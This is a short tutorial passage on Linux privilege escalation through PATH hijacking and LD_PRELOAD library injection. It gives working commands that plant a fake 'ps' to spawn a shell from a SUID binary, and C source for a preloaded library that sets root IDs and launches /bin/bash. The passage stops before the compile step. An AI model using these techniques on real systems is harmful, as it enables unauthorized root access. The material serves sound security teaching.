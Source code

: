 
## Environment Variable Attacks - Controlling Program Behavior

### Understanding PATH Vulnerabilities
The PATH environment variable tells the system where to find programs. When programs are called without full paths, the system searches PATH directories in order.

**The Attack Principle**:
If you can control PATH or write to directories in PATH, you can make programs execute your code instead of the intended program.

### PATH Hijacking Scenarios

**SUID Binary Calling External Programs**:
```bash
# If a SUID binary calls 'ps' without full path (/bin/ps)
# Check what it's calling:
strings /vulnerable/binary | grep -v '^/'

# Create malicious version:
echo "/bin/bash" > /tmp/ps
chmod +x /tmp/ps

# Hijack PATH:
export PATH=/tmp:$PATH

# Execute vulnerable binary:
/vulnerable/binary
```

**Understanding the Attack Flow**:
1. SUID binary runs with elevated privileges
2. Binary calls `ps` without specifying `/bin/ps`
3. System searches PATH directories in order
4. Your `/tmp/ps` is found first and executed
5. Your malicious `ps` runs with the SUID binary's privileges

### LD_PRELOAD - Library Hijacking

**What LD_PRELOAD Does**:
This environment variable forces programs to load specific shared libraries before others, effectively hijacking library functions.

**When This Works**:
- Programs that preserve LD_PRELOAD (some sudo configurations)
- SUID binaries that don't sanitize environment
- Programs run through certain interpreters

**The Attack Technique**:
```bash
# Create malicious shared library:
cat > /tmp/preload.c << EOF
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash");
}
EOF

# Compile the library:
```